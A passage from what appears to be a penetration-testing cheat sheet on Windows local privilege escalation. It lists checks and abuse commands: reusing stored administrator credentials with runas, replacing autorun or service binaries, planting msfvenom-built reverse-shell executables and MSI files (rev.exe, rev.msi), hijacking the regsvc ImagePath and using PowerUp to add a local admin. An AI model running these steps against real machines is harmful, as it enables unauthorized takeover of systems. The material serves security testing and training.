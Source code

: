 with [Juicy Potato](http://ohpe.it/juicy-potato/)  

Look for `SeImpersonatePrivilege` to `Enabled` with `whoami /priv`  

- [WSL Privesc](https://twitter.com/Warlockobama/status/1067890915753132032)  

Look for `bash.exe` and `wsl.exe` with `where /R c:\windows bash.exe` and `where /R c:\windows wsl.exe`.  

- RunAs  

Look for stored credentials with `cmdkey /list`.  

Reuse credentials found with, for example, administrator :  
```
runas /user:DOMAIN\Administrator /savecred "cmd.exe /c whoami"
```

- Autorun  

Check with sysinternal tools [Autoruns](https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns) and [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk), run `Autoruns64.exe` to look for autorun specs in HKLM and `accesschk64.exe -wvu $PROG` to check if `FILE_ALL_ACCESS` for `Everyone` is set.  
Replace the program with a malicious one (msfvenom will be handy), it will be run next time an administrator logs in.

With [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1), check with `Get-ModifiableRegistryAutoRun`.  

- AlwaysInstallElevated  

Check in registry with `reg query HKLM\Software\Policies\Microsoft\Windows\Installer` and `reg query HKCU\Software\Policies\Microsoft\Windows\Installer` if `AlwaysInstallElevated` is set to 1.  
Create malicious msi with msfvenom and execute it with `msiexec /quiet /qn /i c:\path\rev.msi`.  

With [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1), check with `Get-RegAlwaysInstallElevated` and abuse with `Write-UserAddMSI` to create local admin.  

- regsvc  

Check with `Get-Acl -Path HKLM:\System\CurrentControlSet\services\regsvc |fl` if current user has `FullControl` on registry key.  

If so, make malicious .exe with msfvenom and change the registry key with `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\path\rev.exe /f` and start service with `sc start regsvc`.  

- Insecure service file permissions  

Check with `accesschk64.exe -wvu *` if `Everyone` has `FILE_ALL_ACCESS` permission on a service executable. If so, you can replace the executable by a malicious one to privesc.  

With [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1), check with `Get-ServiceFilePermission` and abuse with `Install-ServiceBinary`.  

- Startup applications  

Check with `icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"` if you have access, for example (F) for Full Access, to the directory.  
